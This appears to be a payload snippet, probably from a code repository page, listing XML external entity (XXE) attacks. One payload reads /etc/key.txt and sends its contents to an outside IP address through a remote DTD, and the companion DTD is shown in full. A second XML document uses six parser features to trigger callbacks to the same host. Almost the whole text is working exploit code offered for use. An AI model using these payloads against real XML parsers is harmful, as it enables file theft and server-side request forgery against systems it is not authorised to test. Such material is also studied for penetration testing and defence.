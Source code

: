 #XXE payload:

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
 <!ENTITY % file SYSTEM "file:///etc/key.txt">
 <!ENTITY % dtd SYSTEM "http://178.62.247.80/combine.dtd">
%dtd;]>
<roottag>&send;</roottag>

# combine.dtd:

<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://178.62.247.80/xxe-payload?%file;'>">
%all;


# XML doc that uses 6 different XML fulns/feats to issue a callback:

<?xml version="1.0" encoding="utf-8"?>
<?xml-stylesheet type="text/xml" href="http://178.62.247.80/a.xsl"?>
<!DOCTYPE root PUBLIC "-//A/B/EN" http://178.62.247.80/a.dtd [
  <!ENTITY % remote SYSTEM "http://178.62.247.80/a">
  <!ENTITY xxe SYSTEM "http://178.62.247.80/a">
  %remote;
]>
<root>
  <foo>&xxe;</foo>
  <x xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include
    href="http://178.62.247.80/" ></x>
  <y xmlns=http://178.62.247.80/
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://178.62.247.80/
    http://178.62.247.80/a.xsd">a</y>
</root>
